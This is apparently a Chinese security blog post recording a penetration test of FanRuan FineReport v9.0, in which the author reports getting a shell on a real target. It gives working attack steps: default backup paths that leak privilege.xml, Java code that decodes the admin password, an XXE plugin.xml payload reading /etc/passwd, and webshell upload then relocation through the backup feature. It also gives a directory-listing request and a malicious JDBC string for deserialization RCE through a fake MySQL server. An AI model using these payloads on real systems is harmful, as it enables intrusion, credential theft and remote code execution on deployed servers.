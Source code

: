 ```yaml
---
layout: post
title: 帆软报表v9.0 Vulnerability
summary: 一次针对帆软v9.0系统的渗透发现的脆弱点
featured-img: fr
---
```


## TL; DR

**本篇是水文**

网上公开的目前只有帆软v8.0部分漏洞，而v9.0中这几个漏洞已修（HW快开始了）

本文记录针对帆软v9.0渗透中发现的脆弱点

+ 前台备份文件泄露（默认路径）
+ 后台XXE
+ 后台GetShell
+ 后台任意jdbc串连接导致
  + 本地文件读取
  + 反序列化RCE

## 前台备份文件泄露

帆软v9.0提供了备份文件功能

默认情况下（官方示例https://help.finebi.com/finebi4.1/doc-view-517.html）的备份文件路径是：

```
path="${WEB_REPORT}/bakup"
```

存在以下几种备份（就是bakup，不是我笔误）：

```
all_bakup  
config_bakup  jar_bakup  log_bakup
plugins_bakup  reportlets_bakup  update_bakup
```

备份内部的路径为

```
autobackup/YYYY.MM.DD<space>HH.MinMin.SS
manualbackup/<NAME(default is timestamp)>
```

如果确认WEB根目录下存在备份目录，可以尝试猜解timestamp。如果是Windows下，还可结合短文件名

我所遇目标系统privilege.xml路径：

```
http://IP/WebReport/bakup/config_bakup/autobackup/2020.04.07%2018.10.10/resources/privilege.xml
```

privilege.xml中存放了编码后的admin密码，反编译jar可知编码算法

```java
// fr-core-9.0.jar/com/fr/stable/CommonCodeUtils.java
public class Main {
    private static final int[] PASSWORD_MASK_ARRAY = {19, 78, 10, 15, 100, 213, 43, 23};

    public static String passwordDecode(String paramString) {
        if (paramString != null && paramString.startsWith("___")) {
            paramString = paramString.substring(3);
            StringBuilder stringBuilder = new StringBuilder();
            byte b1 = 0;
            for (byte b2 = 0; b2 <= paramString.length() - 4; b2 += 4) {
                if (b1 == PASSWORD_MASK_ARRAY.length)
                    b1 = 0;
                String str = paramString.substring(b2, b2 + 4);
                int i = Integer.parseInt(str, 16) ^ PASSWORD_MASK_ARRAY[b1];
                stringBuilder.append((char)i);
                b1++;
            }
            paramString = stringBuilder.toString();
        }
        return paramString;
    }

    public static void main(String[] args) {
        String pwd = "___0022...";
        System.out.println(passwordDecode(pwd));
    }
}

```

## 后台XXE

后台有上传插件功能，上传文件为zip格式，插件元信息放在压缩包的plugin.xml中

将WebShell和plugin.xml压缩后上传，FineReport在解析plugin.xml时存在XXE

至于源码我就不打算分析了，感兴趣可以自己反编译看一下，教科书式的XXE写法。可能是因为在后台，一直没有人提出

两种利用：

+ 读文件，但XXE回显在插件管理栏时有字数限制，可FTP OOB。而且Java的XXE是可以列目录的，但其实后台有列目录接口，后面讲
+ SSRF，Windows下低版本JDK默认会启用NTLM鉴权，可以破解hash或hash relay

plugin.xml示例：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE a [ <!ENTITY b SYSTEM "file:///etc/passwd"> ]>
<plugin>
    <id>EVIL</id>
    <name>&b;</name>
    <active>yes</active>
    <version>0.0.1</version>
    <env-version>8.0</env-version>
    <vendor>finereport.wei</vendor>   
    <jartime>2017-11-08</jartime>
    <description>&b;</description>
    <extra-report>
        <ActorProvider class="com.fr.wei.plugin.h5reportnew.server.report.Html5PageActorProvider"/>
    </extra-report>
    <extra-platform>
        <PlateProvider class="com.fr.wei.plugin.h5reportnew.server.fs.Html5ManagementPlateProvider"/>
    </extra-platform>
</plugin>

```

## 后台GetShell

压缩包中的WebShell解压后会放在

```
WEB-INF/plugins/plugin-EVIL-[VERSION]
```

结合手动备份功能，将其备份到WEB目录下

即可访问

```
http://IP/WebReport/bakup/plugins_bakup/manualbackup/EVIL/plugins/plugin-EVIL-0.0.1/1.jsp
```

假如备份文件路径不在WEB目录下，其实后台给了设置备份文件存储路径的功能，可以将WebShell转到可访问目录中

```
智能运维 -> 备份还原 -> 设置 -> 备份路径
```

我所遇目标系统就是通过这种方式getshell

而且这里在选择备份路径时，是有列目录功能的

```
POST
/WebReport/ReportServer?op=fs_bakrestore&cmd=folder_tree

serverID=&optype=get_nodes&parentID=/root&layer=1
```

结合列目录功能，某些操作也会更加容易

## 任意JDBC串连接

数据库操作可导致反序列化，文章：

https://mp.weixin.qq.com/s?__biz=MzA5ODA0NDE2MA==&mid=2649721398&idx=3&sn=ffc2b37268b51b61ed4edba5683cd5b5&chksm=888cba59bffb334fabaf35ffb588d7f0d9ed2d4959d7bfd3d4fa137821a23b7b525c2b1a33b3&mpshare=1&scene=23&srcid=&sharer_sharetime=1587033454342&sharer_shareid=04fc381b7838be4b14d617ae0623e947#rd

目标系统是`mysql-connector-java-5.1.6-bin.jar`，在文章所说的可攻击范围内（我通过`ysoserial.URLDNS`验证确实可成功反序列化）

攻击需要结合本地gadgets，反编译`fr-third-9.0.jar`发现存在`springframework`，但spring版本不合，反编译后发现没有`springframework.beans.factory.support.AutowireUtils`和`springframework.core.SerializableTypeWrapper`。且目标是JDK8u242，就算spring是漏洞版本也无法攻击

简单尝试后并没有找到可利用的gadgets，如果日后有机会可以尝试挖掘`fr-core, fr-third, fr-chart`等jar包

在有可利用gadget情况下:

将`fr-third-9.0.jar`导入本地mvn仓库

```
mvn install:install-file -Dfile='fr-third-9.0.jar' -DgroupId='com.fr.third' -DartifactId='fr-third' -Dversion='9.0' -Dpackaging=jar
```

将gadget的package的导入的路径修改为`com.fr.third.xxx`，修改pom.xml加入`fr-third dependency`后重新编译

服务端`Fake_MySQL_Server`监听，后台修改JDBC串为

```
jdbc:mysql://IP:3306/db?autoDeserialize=true&statementInterceptors=com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_GADGET_CMD
```

修改后随意触发一处查询即可RCE
